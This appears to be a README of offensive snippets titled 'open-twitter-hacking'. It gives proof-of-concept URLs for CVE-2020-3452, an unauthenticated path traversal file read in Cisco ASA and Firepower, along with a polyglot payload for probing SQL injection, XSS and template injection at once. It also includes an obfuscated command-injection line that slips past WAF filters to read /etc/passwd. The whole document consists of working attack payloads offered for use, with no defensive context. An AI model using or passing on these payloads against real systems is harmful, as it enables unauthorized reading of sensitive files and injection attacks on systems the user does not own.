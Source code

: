 # open-twitter-hacking

### CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower
```
Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.
For example to read "/+CSCOE+/portal_inc.lua" file.
https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```
```
POC #2: 
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```
### Test SQLi + XSS + SSTI with the same payload use
```
'"><svg/onload=prompt(5);>{{1234*6543}}
```
### Here's a command injection WAF bypass that works:

```
cat /e${hahaha}tc/${heywaf}pas${catchthis}swd
```
